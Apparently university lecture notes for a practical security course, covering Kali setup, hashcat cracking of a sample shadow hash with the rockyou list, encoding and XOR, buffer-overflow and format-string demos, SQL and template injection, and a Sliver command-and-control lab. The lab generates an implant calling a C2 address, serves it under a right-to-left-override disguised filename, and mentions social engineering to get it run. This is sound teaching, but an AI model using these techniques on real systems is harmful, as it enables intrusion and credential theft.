Welcome to CSSE14x: Practical Security

Lecture notes of Dave Henthorn, Rose-Hulman Institute of Technology
Welcome to CSSE140: Practical Security I
Welcome to CSSE141: Practical Security II
Welcome to CSSE141
Intro to Practical Security II
Objectives for today's class:
- Welcome and introductions
- Let's solve some CTF challenges together
- Time to install Kali Linux
Homework:
- Complete the challenges listed on Moodle
Practical Security Week 2
Intro to Practical Security II
Let's try some stuff with Kali!
Practicing wget and using tar
There's a file to get into your Kali
wget http://classes.csse.rose-hulman.edu/csse14x/shadow.tar.gz
Untar and unzip it
tar -xzvf shadow.tar.gz
This should create an etc directory.
Looking in there I see a file, shadow. What is it?
Passwords in UNIX and Linux
UNIX and UNIX-like OS's (Linux, etc.) used to store passwords in the file /etc/passwd . They no longer do this, instead saving the passwords in /etc/shadow
- What's the reason for this?
Have the students do
cat /etc/passwd
What does this stuff mean?
Try the following:
sudo adduser csse141
Walk them through adduser, being sure to add some fun user info like Olin 157 as their room.
Then
cat /etc/passwd
The last line should have the new info for the just-added user.
Over the years, /etc/passwd became a database to store information on system users, phone numbers, office locations, etc. and turned out to be a terrible place to store passwords.
Why? Because for /etc/passwd to be a useful directory, it must be PUBLIC READABLE!
Passwords were then moved out of /etc/passwd and into /etc/shadow
Trying
cat /etc/shadow
But
sudo cat /etc/shadow
should work.
We see the contents look like /etc/passwd but seem to be:
username:LOTSOFGIBBERISH
This gibberish is not the password, but is the the hash of the password.
So what is a hash?
Hashing
Explain what hashing is. Show them an md5 hash on some file. (They need this skill for the homework)
Password hashes
/etc/shadow stores hashes of the passwords. Let's try to crack one.
Wordlists
On the Try Hack Me challenge from last week, we needed to supply a wordlist to gobuster to make it work.
These are curated lists of common words used in websites, accounts, passwords, etc.
RockYou
The most famous of these wordlists comes from a hack of an app on a social network.
From Wikipedia:
Data breach In December 2009, the company experienced a data breach resulting in the exposure of over 32 million user accounts. The company used an unencrypted database > to store user account data, including plaintext passwords (as opposed to password hashes) for its service, as well as passwords to connected accounts at > partner sites (including Facebook, Myspace, and webmail services). RockYou would also e-mail the password unencrypted to the user during account recovery. They also did not allow using special characters in the passwords. The hacker used a 10-year-old SQL vulnerability to gain access to the database. The company took days to notify users after the incident, and initially incorrectly reported that the breach only affected older applications when it actually affected all RockYou users.[4]
The full list of passwords exposed as a result of the breach is available in Kali Linux, and has been since its launch in 2013. Due to its easy attainability and comprehensive length, it is commonly used in dictionary attacks.[21]
So it's a list of MILLIONS of common passwords.
YOU DO NOT WANT TO USE A PASSWORD ON THIS LIST
First lines of the RockYou list:
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
nicole
daniel
babygirl
monkey
lovely
jessica
654321
michael
ashley
qwerty
111111
iloveu
000000
michelle
tigger
sunshine
chocolate
password1
soccer
anthony
friends
butterfly
purple
angel
jordan
liverpool
justin
loveme
fuckyou
123123
football
secret
andrea
carlos
jennifer
joshua
bubbles
1234567890
superman
hannah
amanda
loveyou
pretty
basketball
andrew
angels
tweety
flower
playboy
hello
elizabeth
hottie
tinkerbell
charlie
samantha
barbie
chelsea
lovers
teamo
jasmine
brandon
666666
shadow
melissa
eminem
matthew
robert
danielle
forever
family
jonathan
987654321
computer
whatever
dragon
vanessa
cookie
Cracking Passwords with Kali
Cracking a hashed password with a wordlist
Show Kali --> 05 Password Attacks --> hashcat
It's a command line tool, so we need to work in the terminal.
The example shown is:
Let's attack
So we should find our wordlists:
do:
wordlists -h
It will ask whether or not to extract Rockyou. We are now placed in: /usr/share/wordlists
Go back to your home directory
cd
but remember that the rockyou list is located at /usr/share/wordlists/rockyou.txt
OPTIONAL: Remove all the extraneous stuff except the final hash from your shadow file:
Crack with:
hashcat -a 0 shadow /usr/share/wordlists/rockyou.txt
The first parameter -a 0 means do a wordlist attack
Important for demos
hashcat saves the results. To run it again from scratch, do the following:
rm -rf ~/.local/share/hashcat/
Results:
Once hashcat was up and running, it took only 2 seconds on my school laptop.
Host memory required for this attack: 0 MB
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs
$6$E/U//EImDPJ0YG75$EEgWMu/83/JMORMJ5OdgF1HeCI9imjyTElJ8MB86ssNkw8gyT8bGOW5qdwuj9FX4dyaYjRoWh9Ecd1pjCQCpX1:carebear1
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$E/U//EImDPJ0YG75$EEgWMu/83/JMORMJ5OdgF1HeCI9imjy...CQCpX1
Time.Started.....: Fri Dec 6 13:22:04 2024 (1 sec)
Time.Estimated...: Fri Dec 6 13:22:05 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 3183 H/s (6.86ms) @ Accel:128 Loops:1024 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4480/14344385 (0.03%)
Rejected.........: 0/4480 (0.00%)
Restore.Point....: 4352/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidate.Engine.: Device Generator
Candidates.#1....: nineteen -> memyselfandi
Started: Fri Dec 6 13:21:59 2024
Stopped: Fri Dec 6 13:22:07 2024
Practical Security Week 3
Delve into Try Hack Me
RFC1918 Networks
Decades ago, when the IP addresses on the Internet were being assigned, multiple blocks were set aside for testing purposes.
Those addresses can be see in the following table:
List of RFC1918 Networks
10.0.0.0 - 10.255.255.255 (10/8 prefix)
172.16.0.0 - 172.31.255.255 (172.16/12 prefix)
192.168.0.0 - 192.168.255.255 (192.168/16 prefix)
Setting Up OpenVPN on Kali
Before you start, browse to something like: Show My IP
Make a note of this IP address. This is what the rest of the world sees when you talk with them.
Browse to the access page of Try Hack Me here

Click on Download Configuration File

Start a Terminal and:
cd Downloads
sudo openvpn username.ovpn
where you change username to your own username.
Kali should connect to the THM VPN server.

Look at the top right to see that we now have an IP address showing. 
What can you do with this VPN?
Now that you're connected to the VPN, check your public IP again: Show My IP
Why didn't your IP change?
Welcome to CSSE142: Practical Security III
Fundamental Skills
We run into a lot of binary data in CTF competitions, reverse engineering, incident response, etc. It's beneficial, therefore, to practice common ways of dealing with binary data.
Character Encoding
In short, character encoding is the mapping between a character and a numerical value that can be stored in memory. Long ago, computers in North America used 7 bits to encode all characters, which provided a usable character-set of 128 different values. Since most computers dealt with 8 bits as a byte, these 7 bits were later extended to 8 bits, or 256 possible combinations. This ASCII standard was used for decades -- at least in North America.
As applications and operating systems were built to support more languages, it became clear that better encoding systems were needed. The UTF-8 and UTF-16 systems have become widely used as ways to encode characters from different languages.
You should be comfortable referencing the ASCII and UTF-8 tables to go between characters and values, either in decimal or hexadecimal form. UTF-16 is used in Java and in Windows programming, so it is possible to see that as well.
Bookmark ASCII and UTF-8 tables on your CTF workstation of choice.
Or try the following in one line Python script:
python -c "for i in range(32, 127): print('|', i, '|', hex(i), '|', chr(i), '|')"
ASCII / UTF-8 (American English) encoding:
| Dec | Hex | Char |
|---|---|---|
| 32 | 0x20 | Spc |
| 33 | 0x21 | ! |
| 34 | 0x22 | " |
| 35 | 0x23 | # |
| 36 | 0x24 | $ |
| 37 | 0x25 | % |
| 38 | 0x26 | & |
| 39 | 0x27 | ' |
| 40 | 0x28 | ( |
| 41 | 0x29 | ) |
| 42 | 0x2a | * |
| 43 | 0x2b | + |
| 44 | 0x2c | , |
| 45 | 0x2d | - |
| 46 | 0x2e | . |
| 47 | 0x2f | / |
| 48 | 0x30 | 0 |
| 49 | 0x31 | 1 |
| 50 | 0x32 | 2 |
| 51 | 0x33 | 3 |
| 52 | 0x34 | 4 |
| 53 | 0x35 | 5 |
| 54 | 0x36 | 6 |
| 55 | 0x37 | 7 |
| 56 | 0x38 | 8 |
| 57 | 0x39 | 9 |
| 58 | 0x3a | : |
| 59 | 0x3b | ; |
| 60 | 0x3c | < |
| 61 | 0x3d | = |
| 62 | 0x3e | > |
| 63 | 0x3f | ? |
| 64 | 0x40 | @ |
| 65 | 0x41 | A |
| 66 | 0x42 | B |
| 67 | 0x43 | C |
| 68 | 0x44 | D |
| 69 | 0x45 | E |
| 70 | 0x46 | F |
| 71 | 0x47 | G |
| 72 | 0x48 | H |
| 73 | 0x49 | I |
| 74 | 0x4a | J |
| 75 | 0x4b | K |
| 76 | 0x4c | L |
| 77 | 0x4d | M |
| 78 | 0x4e | N |
| 79 | 0x4f | O |
| 80 | 0x50 | P |
| 81 | 0x51 | Q |
| 82 | 0x52 | R |
| 83 | 0x53 | S |
| 84 | 0x54 | T |
| 85 | 0x55 | U |
| 86 | 0x56 | V |
| 87 | 0x57 | W |
| 88 | 0x58 | X |
| 89 | 0x59 | Y |
| 90 | 0x5a | Z |
| 91 | 0x5b | [ |
| 92 | 0x5c | \ |
| 93 | 0x5d | ] |
| 94 | 0x5e | ^ |
| 95 | 0x5f | _ |
| 96 | 0x60 | ` |
| 97 | 0x61 | a |
| 98 | 0x62 | b |
| 99 | 0x63 | c |
| 100 | 0x64 | d |
| 101 | 0x65 | e |
| 102 | 0x66 | f |
| 103 | 0x67 | g |
| 104 | 0x68 | h |
| 105 | 0x69 | i |
| 106 | 0x6a | j |
| 107 | 0x6b | k |
| 108 | 0x6c | l |
| 109 | 0x6d | m |
| 110 | 0x6e | n |
| 111 | 0x6f | o |
| 112 | 0x70 | p |
| 113 | 0x71 | q |
| 114 | 0x72 | r |
| 115 | 0x73 | s |
| 116 | 0x74 | t |
| 117 | 0x75 | u |
| 118 | 0x76 | v |
| 119 | 0x77 | w |
| 120 | 0x78 | x |
| 121 | 0x79 | y |
| 122 | 0x7a | z |
| 123 | 0x7b | { |
| 124 | 0x7c | |
| 125 | 0x7d | } |
| 126 | 0x7e | ~ |
Base64 Encoding
Sometimes we need to share binary data with others and one way to do this is in text form. But as we saw in the Character Encoding section, there is a careful mapping between characters and numerical values.
Let's say we want to share a single byte. If that byte has a value between 32 and 126, it would be possible to send the ASCII representation of the value over plaintext. For example, a byte of value 0x41 could be represented as A.
But what happens to the byte values outside the printable range? To accommodate for scenarios such as these a binary to text encoding scheme known as Base64 was invented. Every 6 bits of binary data are represented by an 8 bit character. Since 2^6 is 64, we need only part of the typical ASCII character set.
This ratio of 8 bit characters to 6 bit encoding means that, for every 3 bytes of data, we need 4 bytes of characters to encode it.
What happens in the case where the data is not a simple multiple of 6 bits? The values are padded with zeros and the = character appears.
Example 1: The hex value 0xc0ffee is a 24-bit number. To encode this we will need 24/6 * 8 = 32 bits, or 4 characters. db
0xc0ffee is therefore encoded as wP/u in Base64.
Example 2: Encoding 0xdeadbeef.
We have four bytes to encode here, or 32-bits, which does not divide evenly by 6. Instead, some padding will be introduced which leads to the characteristic '=' sign at the end of many Base64 encoded strings.
We see 0xdeadbeef encoded as 3q2+7w== after padding.
Basic HTTP Authentication
Did you know that HTTP provides the means to do basic (username / password) authentication on websites?
It used to be super common, but it's not anymore.
Your browser will collect username and password from you and send it to the website in a string that looks like this:
ZmxhZzp0aGlzX3VzZWRfdG9fYmVfY29tbW9ubHlfdXNlZA==
-
Can you decode it?
-
Why is it not used anymore?
-
Why is it especially dangerous over http:// (instead of https://)?
Endianness: Little Endian vs. Big Endian
Understanding endianness, or how data is stored in memory, is an important skill to have since we deal with so much in binary form.
In essence, let's look at how a value such as this 32-bit (four byte) integer, 0xdeadbeef, is stored in memory. The two most common ways are little endian and big endian. Let's take a look at how those two approaches differ. Let's say we're storing those four bytes starting at address 0x100.

If you have Ghidra already installed, take a look at this binary file.
If not, then follow along with the analysis. After asking Ghidra to analyze the file, you should see the following code segment that it reversed:
void main(undefined param_1)
{
undefined4 local_39;
undefined4 local_35;
undefined4 local_31;
undefined2 local_2d;
undefined4 local_2b;
undefined4 local_27;
undefined4 local_23;
undefined4 local_1f;
undefined4 local_1b;
undefined4 local_17;
undefined3 uStack_13;
undefined1 *local_10;
local_10 = ¶m_1;
local_2b = 0x74696872;
local_27 = 0x7b465443;
local_23 = 0x73696874;
local_1f = 0x5f73695f;
local_1b = 0x64726168;
local_17 = 0x65646f63;
uStack_13 = 0x7d64;
local_39 = 0x6c6c6548;
local_35 = 0x6f77206f;
local_31 = 0x2e646c72;
local_2d = 10;
printf("\n %s",(char *)&local_39);
return;
}
Take a look at the printf() statement near the end. We see the %s and char *, so it's clear that local_39 is an array of characters, aka a string in C. Yet local_39 has a value of 0x6c6c6548. What happens when you place this hexadecimal value into CyberChef and add From Hex to the recipe?

I see some characters, but not sure what it means. Let's try some more.

More characters. But something doesn't look right.
When we analyzed this file with Ghidra, I noticed that it was a 32-bit ELF executable from a little endian processor. Let's go down that road.
Let's swap the endianness of these bytes. And what's the word length? CyberChef is really asking us how many bytes we expect per memory address -- it's a 32-bit processor, so four bytes. Add the following Swap endianness block to the recipe. Be sure to place it before the From hex block because we want it working on the raw bytes.

Much better!

Adding in another word yields:

And there it is! Our string is in the clear.
Handling bytes in Python
Python has two classes for handling byte data -- bytes() and bytearray().
The two classes are similar, but with one crucial difference: bytes() are immutable while bytearray() is mutable.

Also note the quick shortcut way to create a bytes() object from a string:
your_bytes = b'This string is about to be turned into UTF-8 encoded bytes'

Which shows that your_bytes is indeed of type bytes() and contains the expected UTF-8 values.
Python XOR
Exclusive or (XOR) is a well-known binary logical operator and can be used in Python with the ^ operator.
For example:

XOR is a fun CTF encryption challenge since two rounds of it returns the plaintext.
Plaintext -- XOR with key --> Ciphertext -- XOR with key --> Plaintext
For XOR'ing long bytes() or bytearray() objects, you can use a for loop or the map function:
def xor(bytes_in, key):
return bytearray(a^b for a, b in zip(*map(bytearray, [bytes_in, key])))
This function assumes your key is long enough to align with bytes_in. If need be, extend the key by repeating it over and over until it is long enough before calling this function.
Cracking passwords
While occasionally we see vendors really screw up and store passwords in plaintext, nearly all passwords are hashed in some form.
Cracking passwords
Want to try your hand at cracking hashed passwords using your new Kali instance? Download a test file here: Example shadow file.
Next, answer the following questions:
- There are at least two programs installed on default Kali Linux that can crack passwords from this second file. Name at least two.
- Find the following command. Kali menu -- 05 – Password Attacks -- wordlists. What does this do?
- What is the rockyou wordlist? Where does it come from?
- Using hashcat and the rockyou wordlist, attack the sample file from above.
- How long did it take your computer to crack this password? How many characters was the password?
- What does this tell you about using passwords that are susceptible to dictionary attacks?
HINT: hashcat is pretty good about detecting the hashing algorithm. In other words, try at least once without the -m option and see if the hash is autodetected.
HINT2: Try a dictionary attack here, which is part of the "Straight" attack method of hashcat. How do you tell it which type of attack to use?
Binary Exploits
In this type of CTF challenge, we are able to interact with a running program. The goal is usually to find edges cases or other vulnerabilities that let you exploit the file in a way unintended by the author.
echo'ing hex values
Sometimes we need to send hex values to a remote system to test out an edge case. The echo command can help... just use the -e command line option.
Try piping echo into your connection. In this case, we're connected using netcat.
echo -e "\xde\xad\xbe\xef" | nc <host> <port>
Want to suppress the newline? Use -n
echo -e -n "\xde\xad\xbe\xef\x03\x34\x43\x0d\x0a" | nc <host> <port>
Buffer Overflows (Intro)
Let's check out the example C program below.
// Replace the line below with the real flag.
char flag[] = "replace with real flag";
// Replace the line below with the actual passcode
char passcode[] = "123456";
char nickname[12];
char user_passcode[7];
printf("\nWhat should we call you: ");
scanf("%s", nickname);
printf("\nGreetings %s. ", nickname);
printf("Please enter the six character passcode: ");
scanf("%s", user_passcode);
if (strncmp(passcode, user_passcode, 6) == 0) {
printf("\nNice work! The flag is %s", flag);
}
else {
printf("\nSorry. passcode is incorrect.");
}
You can download the x86 ELF binary here if you would like.
There's a way to exploit this program and get the flag without knowing the passcode at all. Work with a teammate to brainstorm how you might do so.
In an x86 compatible VM (or emulator), attempt to run the program and try your solution.
The Stack
With a colleague, sketch out how the following items would be arranged on the stack.
Assume the following:
- We are dealing with a 32-bit, little endian processor.
- int's are four bytes each
Code:
int w = 1;
int x = 2;
int y = 3;
int z = 4;
int int_array[4] = {5,6,7,8};
You can check your answer by looking at the following output from gcc on the above code.
mov DWORD PTR [rbp-4], 1
mov DWORD PTR [rbp-8], 2
mov DWORD PTR [rbp-12], 3
mov DWORD PTR [rbp-16], 4
mov DWORD PTR [rbp-32], 5
mov DWORD PTR [rbp-28], 6
mov DWORD PTR [rbp-24], 7
mov DWORD PTR [rbp-20], 8
Finally, if I executed the command, int_array[4] = 9;, which values change?
Answer:
Take a look at this output:
int_array[0] located at 0xffccb9b0
int_array[1] located at 0xffccb9b4
int_array[2] located at 0xffccb9b8
int_array[3] located at 0xffccb9bc
int_array[4] located at 0xffccb9c0
z located at 0xffccb9c0
Which is generated by running:
printf("int_array[0] located at %p\n", &int_array[0]);
printf("int_array[1] located at %p\n", &int_array[1]);
printf("int_array[2] located at %p\n", &int_array[2]);
printf("int_array[3] located at %p\n", &int_array[3]);
printf("int_array[4] located at %p\n", &int_array[4]);
printf("z located at %p\n", &z);
Quick Disassembly
Need an address of a function? Open the binary in gdb using:
gdb ./vuln
To find the section of interest use the disas command:
disas main

Note the address of the function at the top. Here we see main() starting at 0x08049372.
To quit gdb, simply quit.
Format String Vulnerability
Take a look at the following code:
int main(int argc, char *argv[]) {
printf("Welcome to %s\n", argv[0]);
printf("You called the program with %d options. They are:\n", argc-1);
if (argc > 1) {
int j;
for (j=1; j < argc; j++) {
printf(argv[j]);
printf("\n");
}
}
return 0;
}
What would happen if we ran this command line program with an option like hello world?
./formatstring hello world
Welcome to ./formatstring
You called the program with 2 options. They are:
hello
world
Works as intended!
But the dangerous bit (which is noted by the compiler by the way...) is the so-called naked format string in the following line:
printf(argv[j]);
This can be abused by sending printf format options, the most common of which are %p or %x.
Let's try spamming it with %p to dump memory:
./formatstring %p%p%p%p%p%p%p%p%p
Welcome to ./formatstring
You called the program with 1 options. They are:
0x10x10239d9100x16da6f7200x20x16da6f7000x19f403f280x00x00x0
And just like that we start dumping memory!
Injections
User input is always dangerous! Malicious actors will attempt to find and exploit any possible vulnerabilities your code.
In this course we will look at two different types of user inputs that lead to undesired program execution:
- Abusing unsanitized SQL statements to leak information or bypass authentication.
- Causing remote code execution in websites that rely on templates to generate content.
SQL Injection
Many systems rely on databases as their backend. Take for instance an online store that sells items through a website. The website relies on databases to store not only pricing information, inventory status, and shipping info, but also user account information such as addresses, usernames, and passwords. The standard language used to communicate with many relational databases is known as Structured Query Language, aka SQL.
The problem comes when the SQL query is based on elements of user input. The designers may have intended the user to provide details crucial to an inventory search, but threat actors have included portions of a SQL query itself to steer execution in their desired direction.
The classic example is evaluating username and password by simply pulling them from a database. A query might look like
SELECT * FROM user_db WHERE username = fred AND password = rightsaidfred
A developer could build this query in a naive way by reading in a string from the user and storing it in variables, say userid_input and password_input.
Then
sql_string = "SELECT * FROM user_db WHERE username = " + userid_input + " AND password = " + password_input;
The string above would allow malicious users to inject SQL commands of their own. For example, if the user knew a username and then entered something OR 1 = 1 for the password, the query would then be:
sql_string = "SELECT * FROM user_db WHERE username = fred AND password = something OR 1 = 1";
where the OR statement is paired with something that is always true. We know that the password something is incorrect, but the addition of the OR 1 = 1 would cause this portion of the statement to always evaluate TRUE, thereby bypassing the password check entirely!!!
Most CTF players will develop cheat sheets on common SQL injections, especially since there can be subtle differences in how different database vendors handle queries.
Example SQL Injection cheat sheet.
Server Side Template Injection
Frameworks like Flask and Django (Python), Liquid (Ruby), Handlebars (NodeJS), etc. are ways of extending traditional programming languages into interactive web applications.
Vulnerabilities can occur when user input is not sanitized. These are especially dangerous because they allow remote code execution (RCE).
Example:
Flask (a Python web framework) uses double curly braces {{}} to mix Python code into an HTML page. A malicious user could post {{ 7*7 }} to see if the answer 49 appears anywhere in the resulting webpage, illustrating that RCE is possible.
Here's an example login page: 
A malicious user, knowing the framework, could attempt an exploit:

-
Initial Recon:
Determine which framework (Handlebars, Flask, etc.) is being used. One possibility is to send all the most common framework escape characters to see if any trigger a response. An example of this would be:
${{<%[%'"}}%\. -
After elucidating which web framework, consult an SSTI cheat sheet like this or use an automated tool like this plugin for Burp Suite.
sliver C2 platform and Kali
Pieces of a typical Command and Control attack
There are three pieces to a typical C2 setup:
- A server which accepts incoming connections from a compromised machine.
- A client that the threat actor uses to connect, through the C2 server, to the compromised machine.
- The implant or beacon which is run on the compromised machine.
Let's start building our C2 system.
On Kali, first do:
sudo apt install sliver
Next, make sure your networking is in place. For instance, if you are connecting to a host over a VPN do that now and then execute:
ip a
and record the relevant ip address.
Finally, let's make a directory like sliver and then cd into it.
1. Starting up the sliver server
For piece 1, we start the server and then craft the exploit so that it knows to call home to this.
sliver-server
2. Start an http server as your C2 server
http
This should bind to port 80. If not, change the port as needed.
3. Create an implant
We need to create an implant that phones home to our server.
generate -b http://10.6.1.70
Then execute
implants
to ensure that the implant is created and pointing to the correct server. Note the Name of the implant.
4. Get the implant to the user
In pentesting, this is where you need to get creative and do a bit of social engineering to encourage the user to download and execute this file. It could be via email, messaging, etc.
For the sake of this demo, open a shell and find where your implant is located. Execute:
python3 -m http.server
to start a web server which can serve this implant. It is likely running at port 8000.
document\u202Efdp.exe
5. DEMO: Using THM's Box
We used the Blue box to learn about RCE's and metasploit. Let's also try it here.
Start Blue on THM and record the IP address of the box.
Remote desktop into the machine using:
rdesktop IP_ADDRESS
Log in as Jon with alqfna22 as a password. (How did you get this?)
Open a web browser and connect back to your Kali box at port, something like
http://10.6.1.70:8000
Find the implant. Download it and run it. pwned!
6. Watch for connections on your C2 server.
If this all works, you should see a new session on the sliver-server. Type
use to start working with this session.
Do commands like ls and whoami from the prompt.
Try taking a screen shot of the machine.
Can you get the flags from this machine this way?
7. What is next?
RED TEAM:
- How would you get this payload to the user? What tactics would you use?
- What challenges do you think you will need to overcome?
- You've just scored your first implant inside the corporate IT network. What is your plan of attack from here?
BLUE TEAM:
- How do you prevent C2 implants?
- How do you detect C2 implants?
- How do protect against the next move of the red team after successfully scoring a C2 implant?
Sliver part 2.
How does C2 work?
Start Wireshark and begin capturing traffic between your server and the implant. What do you see?
CTF Tools
Over the next few pages we will take a look at the tools we will use in this course.
Virtual Machines
Many of us run our CTF/penetration testing tools inside a virtual machine instead of on our desktop.
This helps because we can:
- keep our own machines free of extraneous tools
- protect our machines from software of unknown origin
- run tools that are not native to our default OS
Before you can run a virtual machine, known as the guest, you need to set up the host machine as a hypervisor.
Hypervisors
Hypervisors manage virtual machines and allow them access to your hardware. A hypervisor will allow you to control how much memory, disk space, and CPU time the guest is able to have from the host machine. The most common hypervisors for penetration testing or CTF competitions are:
- VMware
- VirtualBox
- Hyper-V
- KVM / QEMU
I find hypervisors to be a matter of personal preference -- each has a set of pros/cons. Some thoughts:
VMware:
- The flagship VMware hypervisors are run on the largest servers in the world and are hugely expensive but immensely capable. The company provides some of this functionality in desktop versions, VMware Workstation (Windows/Linux) and VMware Fusion (Mac). Previously, these applications required paid licenses, but recent changes from Broadcom allow us to use these for free. These are my personal choice. High quality networking options, display tuning, reliable copy-paste, easy snapshots, etc. Download here -- requires you to create a Broadcom account.. Installation instructions follow on the next few pages of this site.
VirtualBox
- Available here Sort of the opposite of VMware... much of it is open source (GPLv2 license) and free. Very popular for hackers because of this. I wish it had better documentation and advanced networking support, but you can't beat the price.
Hyper-V
- Developed by Microsoft and available as a built-in service in many versions of Windows, this is an easy one to use for many people. Growing in popularity every year. Learn how to enable Hyper-V here. With some configuration tweaks you can use Enhanced Session Mode which enables a better graphical experience along with a working clipboard, complete with file transfer.
KVM/QEMU
- Great choice if you are on a Linux distro. Instructions for enabling on Debian distros here.
Installing VMware Workstation or Fusion
The following instructions will help you install VMware Workstation on Windows (standard RHIT setup).
Acquire VMware
Notation: Workstation refers to the product on Windows or Linux. Fusion is the product on MacOS.
Workstation and Workstation Pro or Fusion and Fusion Pro used to be different licenses. Broadcom now allows everyone to use Pro
Browse to the DOWNLOAD NOW . You will need to create an account with Broadcom to complete this.
Once downloaded Installation video
VM Snapshots
One of the coolest features of VMs is the ability to take "snapshots". You are, in essence, saving the state of a VM at that instant in time -- this includes what is loaded in memory, shown on the screen, etc. You can then roll back changes to a previous known state whenever needed.
Check out this video about snapshots
For CTF competitions, a workflow I see quite a bit is:
- Create a VM and tweak with all the tools you will need.
- Snapshot the VM.
- Start a challenge. This may require you to install new software, add new packages to Python, add temporary entries to /etc/hosts, download binaries for reverse engineering, etc.
- Complete the challenge.
- Rollback the VM to the pre-challenge snapshot. On to the next challenge!
Kali Linux
The most famous distribution of Linux used by hackers worldwide. The main website is here.
Note that Kali is based on Debian Linux, so you can find tips on setup, package management, etc. by searching for Kali, Debian, or even Ubuntu.
From the Kali website:
The Kali Linux distribution is based on Debian Testing. Therefore, most of the Kali packages are imported, as-is, from the Debian repositories. In some cases, newer packages may be imported from Debian Unstable or Debian Experimental, either to improve user experience, or to incorporate needed bug fixes.
I prefer create a VM from scratch using an ISO from here.
If you have a working hypervisor and are on PC, you can also grab a pre-built VM image from here
Installing Kali Linux as a Virtual Machine
1. Download the Kali Linux ISO.
Kali ISOs here
Standard users will want the x86_64 image. 
2. Install Kali Linux as a VM
Check out this installation video for Kali Linux on VMware here
Update Kali Linux
Be sure to keep your Kali install up to date using
sudo apt update
sudo apt upgrade
Check out this video about updating Kali
First look at Kali
Check out this video on a first look at a Kali install
kali-tweaks
Be sure to check out the kali-tweaks command. You will find some nice customization options here.

SSH into Kali
Since many of the tools you will use on Kali are command line, you don't always need to use the graphical user interface. Sometimes it's easiest to use a terminal and SSH into your Kali instance.
Out of the box, SSH connections to your Kali box are disabled. To enable them, complete the following on your VM:
Install the OpenSSH server.
sudo apt install openssh-server
Enable the SSH service.
sudo systemctl enable ssh.service
Now start the SSH service.
sudo systemctl start ssh.service
Finally, record the IP address of your box -- usually located at eth0 for a VM with one network interface.
ip a

In the above case, the address of your VM is 192.168.46.91 and your username is kali.
You should be able to log in from your desktop now using:
ssh kali@192.168.46.9
Build Tools and GDB
After creating your Kali Linux VM you should consider installing the common build tools:
sudo apt install build-essential
This should install gcc, g++, make, and several others.
To add support for 32-bit binaries, which are still common in CTFs, do the following:
sudo apt install gcc-multilib g++-multilib
Finally, install the GNU Project Debugger, gdb:
sudo apt install gdb
Ghidra
Ghidra is an open source tool from the National Security Agency (yes, that NSA!) that we use for reverse engineering.
Ghidra is a Java app, so you need a working JDK before you can run it.
-
On a Linux machine, you can check your Java version with:
java -version -
Look for the version output, something like:
openjdk version "17.0.8" 2023-07-18Be sure that you have version 17 or higher. -
If you need to install Java, you can use the following command on Kali Linux.
sudo apt install default-jdk -
After you download Ghidra, there isn't a traditional installer. Instead, do the following:
-
Unzip the file. In the unzipped archive, you will find a script to start Ghidra.
- On UNIX-like systems, run the file
./ghidraRun- On Windows, run the file:
ghidraRun.bat
-
Ghidra not working?
If you find that parts of Ghidra are not working out of the box on your Kali instance (especially Kali on ARM), try the following:
-
Install sdkman
sudo curl -s "https://get.sdkman.io" | bash -
Restart your terminal shell.
-
Install gradle
sdk install gradle -
cd into your Ghidra directory.
-
cd into the
supportdirectory. -
Run
./buildNatives -
Now try Ghidra.
Cyberchef
Cyberchef is a tool put out by the GCHQ which is "the UK's intelligence, security and cyber agency". It's a web-app that aims to be your go-to tool for hacking data manipulation.
You can find it on the web here or inside many infosec packages like Security Onion.

Cyberchef Example
Here's an example:
On the left you will find a palette with all the different operations possible. You will drag those onto the Recipe panel and that will operate on the Input, producing your Output.
For example, let's say we have the bytes:
\x43\x79\x62\x65\x72\x63\x68\x65\x66\x20\x69\x73\x20\x61\x77\x65\x73\x6f\x6d\x65
Go ahead and copy those bytes into the Input panel of Cyberchef.

Now go over to the left-most palette and search for hex since these look like hexadecimal bytes.
Select From Hex and drag it on to the Recipe panel.

This was a super easy one to solve.

Building recipes in Cyberchef
Let's say we find the following message when reverse engineering a binary.
ttmq3a2X8YKp2qmDp8Kr2avPu4O9wrOCqcyqzraSqJCR45zsk8qK7urJqQ==
We know from inspecting the executable there is an XOR binary operation to obfuscate the text. But our keen eyes notice this is a Base64 encoded string.
Build a recipe that:
- Decodes the Base64 encoded string.
- Decrypts that string using XOR decryption. Unfortunately we only know that the key used for encryption is 2 bytes in size. You will need to brute force it. HINT: We believe it is an
httpstring.
Python
Python is a great tool for ethical hacking! It's ubiquitous, easy to work with, and you can write up a script quickly.
Check out the next few sections for interesting things you can do with Python.
Interactive Python
While many courses teach you to write Python scripts, don't forget that you can work with Python in an interactive manner. This can be done on the command line or through what is called an interactive Python notebook (.ipynb file extension).
My preferred method for quick work in Python is Google Colab, which is free with a Google account.
Open a New notebook from the File menu:

There's nothing to configure or do... just start typing your code in the code block.

And then click the play button to execute that code block. A green checkmark shows that it executed properly.

On the left side, you will see a toolbar. If you select the {x} button it will pull up the Variable inspector and you can see defined variables and their values.

IMPORTANT This is Python running in the cloud. When you are done with this instance it will be wiped and given to someone else. As such, be sure to save your data. Your work, however, is continuously being saved by Colab. If you look at the File menu, you will also see options for saving your notebook in Google Drive or Github, or you can download it to your host.
You can pull files into your Python script from your Google drive or, more easily, by clicking on the folder icon on the left. Use the upload button or simply drag files into this mini file manager.

Extending Colab
Let's say I want to use a library that is not pre-installed on Colab. For example, I want to use the pwntools library to help with a binary CTF challenge. But I run into this issue when I try the import:

You can install pip packages by using the following command:
!pip install -q package_name
where the -q option means a quiet install.
And there we go! Package is now installed and my Colab instance is that much more powerful!

Single Line Python Scripts
Did you know you can run single line Python scripts from the command line using the -c argument?
Try the following:
python -c "print('A'*46)"
Output
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Single line program to create 46 A characters. But why?
When we get around to creating buffer overflows, keep this tool in mind. We often need to create a long string that fills up a buffer and then injects characters beyond it.
